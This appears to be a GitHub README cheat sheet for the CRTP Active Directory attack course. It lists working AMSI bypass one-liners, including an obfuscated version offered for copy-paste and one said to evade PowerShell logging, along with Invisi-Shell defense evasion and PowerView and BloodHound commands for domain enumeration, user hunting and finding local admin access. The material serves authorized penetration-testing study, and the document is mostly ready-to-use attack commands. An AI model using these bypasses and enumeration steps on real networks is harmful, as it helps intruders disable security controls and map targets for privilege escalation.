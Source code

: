 # CRTP_Skid
Commands and reference material useful for the CRTP course and Active Directory post-exploitation.

- [CRTP AD Attacks](#CRTP-Skid)
  - [Shell Prep & Defense Evasion](#Shell-Prep-&-Defense-Evasion)  
    - [Invisi-Shell](#Invisi-Shell)
    - [AMSI Bypass](#AMSI-Bypass)
  - [Domain Enumeration](#Domain-Enumeration)  
    - [Powerview](#Powerview)
      - [Domain](#Domain-Enum)
      - [Domain Trust](#Domain-Trust)
      - [Users Groups Computers](#Users-Groups-Computers)
      - [Share Enum](#Share-Enum)
      - [GPO](#Group-Policy-Objects)
      - [Access Control Lists](#Access-Control-Lists)
    - [AD PowerShell Module](#Active-Directory-PowerShell-Module)
    - [Other Tooling](#Tooling)
      - [Bloodhound](#Bloodhound)
      - [Mimikatz](#Mimikatz)
    - [Links](#Links)
      - [User Hunting](#User_Hunting)

## Shell Prep & Defense Evasion

### [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell)
Invisi-Shell is used in the labs to bypass PowerShell security features by hooking .NET assemblies. Invisi-Shell a batch file for execution (two batch files dependant on current privilege level) that reference the invisi-shell DLL. Note - Invisi-shell may break certain functionality of certain programs run within shell.
```powershell
C:\Path\RunWithRegistryNonAdmin.bat 
C:\Path\RunWithPathAsAdmin.bat
```
### AMSI Bypass 
More AMSI Bypass techniques [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

#### ‘Plain’ AMSI bypass example:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
#### Obfuscation example for copy-paste purposes:
```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
#### Another bypass, which is not detected by PowerShell autologging:
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
## Domain Enumeration 
### Powerview 
Powerview is referenced quite a bit in the course material, but the Microsoft-signed AD PowerShell Module can also be used and will typically evade AV sigs where PowerView may not if using an unmodified version. 

#### Domain Enum

```powershell 
Get-NetDomain
Get-NetDomain -Domain <domainname>
Get-DomainSID
Get-DomainPolicy (Get-DomainPolicy)."System Access" net accounts
```
#### Domain Trust

```powershell 
Get-NetDomainTrust
Get-NetForest
Get-NetForestDomain
Get-NetforestDomain -Forest <domain name>
Get-NetForestCatalog
Get-NetForestCatalog -Forest <domain name>
Get-NetForestTrust
Get-NetForestTrust -Forest <domain name>
Get-NetForestDomain -Verbose | Get-NetDomainTrust
```
#### Users Groups Computers 
```powershell 
Get-NetDomainController
Get-NetDomainController | select-object Name
Get-NetUser
Get-NetUser -Username <username>
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, lastlogon, pwdlastset
Get-NetUser | select samaccountname, lastlogon, pwdlastset | Sort-Object -Property lastlogon
Get-NetUser | select samaccountname, memberof
get-userproperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
Get-netuser | Select-Object samaccountname,description
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -Computername <computername> -FullData
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -fulldata | select samaccountname, operatingsystem, operatingsystemversion
Get-NetGroup
Get-NetGroup -GroupName *admin*
Get-NetGroup -Domain <domain>
Get-NetGroupMember -Groupname "Domain Admins" -Recurse
Get-NetGroupMember -Groupname "Domain Admins" -Recurse | select MemberName
Get-NetGroup -Username <username>
Get-NetlocalGroup -Computername <computername> -ListGroups
Get-NetlocalGroup -Computername <computername> -Recurse
Get-NetLoggedon -Computername <computername>
Get-LoggedonLocal -Computername <computername>
Get-LastLoggedOn -ComputerName <computername>
Invoke-UserHunter
Invoke-UserHunter -GroupName <name>
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -Stealth
Find-LocalAdminACcess -Verbose
```
#### Share Enum

```powershell 
Invoke-ShareFinder -Verbose
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
Invoke-FileFinder -Verbose
Get-NetFileServer
```
#### Access Control Lists

```powershell 
Get-ObjectACL -SamAccountName <accountname> -ResolveGUIDS
Get-ObjectACL -ADSprefix ‘CN=Administrator,CN=Users’ -Verbose
Get-PathAcl -Path \\<Domain controller>\sysvol
Invoke-ACLScanner -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
Invoke-ACLScanner | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}
```

#### Group Policy Objects 

```powershell 
Get-NetGPO
Get-NetGPO -Computername <computername>
Get-NetGPOGroup
Find-GPOComputerAdmin -Computername <computername>
Find-GPOLocation -Username user -Verbose
Get-NetOU -Fulldata
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
Get-NetGPO -GPOname "{<gplink>}"
```

#### Active Directory PowerShell Module
[Microsofts AD PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) module can also be used for domain enumeration. 

## Tooling 

I found that the covered tooling in the course is sufficient for achieving CLI access across the hosts in the exam. However, some of the techniques and tools used in the course will not work in the exam due to .NET dependancies. 


#### Bloodhound
Set up Bloodhound/Neo4J on your host before the exam. I ran in to an issue involving OpenJDK vesioning with Neo4J on Catalina, as well as an issue ingesting the collected data using the latest version of Bloodhound. I used the below workarounds. 
- Bloodhound version 9.4.0 (OSX)
  - If you run in to Bloodhound error "file created from incompatible collector" upon import of collected .json files, try running an older version of Bloodhound. See [this](https://github.com/fox-it/Bloodhound.py/issues/69) 
- Neo4J 4.4.9 (OSX)
  - Install older version of OpenJDK 11+ if you run in to issues. See [this](https://gist.github.com/drm317/3e2a9ce4ba1288c4fbaab1e534d71133)

```powershell 
#Start neo4j 
./neo4j console 
#Run collectors 
. ./sharphound.ps1
Invoke-Bloodhound -CollectionMethod all -Verbose
Invoke-Bloodhound -CollectionMethod LoggedOn -Verbose
```
## Links
[User Hunting](https://sixdub.medium.com/derivative-local-admin-cdd09445aac8)
[PowerShell Constrained Language Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)
